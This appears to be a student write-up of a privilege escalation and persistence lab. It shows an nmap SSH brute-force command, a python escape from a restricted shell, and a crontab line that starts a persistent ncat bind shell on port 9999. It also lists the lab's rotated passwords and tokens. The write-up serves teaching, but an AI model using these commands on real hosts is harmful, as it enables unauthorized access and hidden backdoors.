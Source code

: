 # 6: Privilege Escalation and Persistence

The task is simple: Get SSH access to moriarty@192.168.1.193 and find flag.
We are given a hint: Despite being a criminal mastermind, 
this person loves reading superhero comic books….. nerd!

So first we tried to bruteforce the password for user moriarty using the list
of 1000 most common passwords (https://raw.githubusercontent.com/DavidWittman/wpxmlrpcbrute/master/wordlists/1000-most-common-passwords.txt)
and command:

```
sudo nmap -sS -sV -p 22 192.168.1.193 -v -n --script ssh-brute --script-args userdb=names.txt,passdb=1000-most-common-passwords.txt
```

This sadly failed and didn't find the correct password.
So we tried to guess what the password might be and on the first try we get in;
the password was 'batman'.

After getting in we see, that we have only 2 command available, python and ls.
Using python we are able to spawn a shell:

```
import os; print(os.system('/bin/bash'))
```

After that, we could roam freely all over the server.
First thing we did was to have some persistence we added following line to crontab:

```
(crontab -l ; echo "@reboot sleep 200 && ncat -l 9999 -k -c /bin/bash")|crontab 2> /dev/null
```

Which will upon reboot spawn a shell acessible on port 9999.

After that, we explore more of what we can do. After a few minutes we stumble upon
folder assignment07 under /home/user which contains script for the 7th assignment.
In file password_rotator.sh we find whole script for the assignment from which we draw following conclusions:

1. The passwords that the user rotates are: "superman" "ironman" "batman" "4a7#mgannn2LDD90T#1fX#0Yx%m!kxrMSmUXd60xKwdM0S6u"

2. The file with second token is: /var/tmp/tokens/second_token.txt and it's content
changes to following values: "Hysterical" "Spaghetti" "Floss" "Apparently"
which together give the token for second part of the assignment: HystericalSpaghettiFlossApparently
This token is also in the first comment in the script
```
#TOKEN:HystericalSpaghettiFlossApparently
```

3. The flag server for second part of the assignment is 192.168.1.167:9453

4. On password rotation all ssh session to moriarty are killed so we won't be able
to persist our ssh connection but we can definitely spawn a remote shell which shouldn't
get killed by the script.

After looking into the /vat/tmp/tokens folder we find token and flag server for first part
of the task as well. We try to submit both flags but flag for token for the part B doesn't
work which we later get to know was unintentional.
